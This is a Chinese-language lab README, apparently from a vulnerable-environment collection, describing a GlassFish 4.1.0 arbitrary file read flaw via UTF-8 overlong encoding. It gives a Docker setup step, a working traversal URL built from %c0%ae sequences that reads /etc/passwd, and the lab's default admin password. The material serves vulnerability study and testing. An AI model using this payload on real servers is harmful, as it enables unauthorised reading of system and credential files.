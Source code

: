 # GlassFish 4.1.0 任意文件读取漏洞

GlassFish是一个用于Java EE平台的开源应用服务器。在GlassFish中存在一个漏洞，攻击者可以通过UTF-8 Overlong Encoding攻击读取任意文件。

该漏洞产生的原因是GlassFish在解码URL时没有正确处理UTF-8 Overlong Encoding，导致将`%c0%ae`解析为ASCII字符的`.`（点）。攻击者可以通过在URL中使用`%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/`来实现目录遍历，从而读取系统上的任意文件。

参考链接：

- <https://www.trustwave.com/Resources/Security-Advisories/Advisories/TWSL2015-016/?fid=6904>
- <https://www.leavesongs.com/PENETRATION/utf-8-overlong-encoding.html>

## 环境搭建

执行如下命令启动一个GlassFish 4.1.0服务器：

```
docker compose up -d
```

环境启动后，你可以通过`http://your-ip:4848`访问GlassFish管理控制台：

## 漏洞复现

访问以下URL可以读取`/etc/passwd`的内容：

```
https://your-ip:4848/theme/META-INF/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/etc/passwd
```

![](1.png)

### 补充说明

超级管理员密码在`docker-compose.yml`中设置，默认值为`vulhub_default_password`。你可以使用此密码在4848端口登录管理员账户。
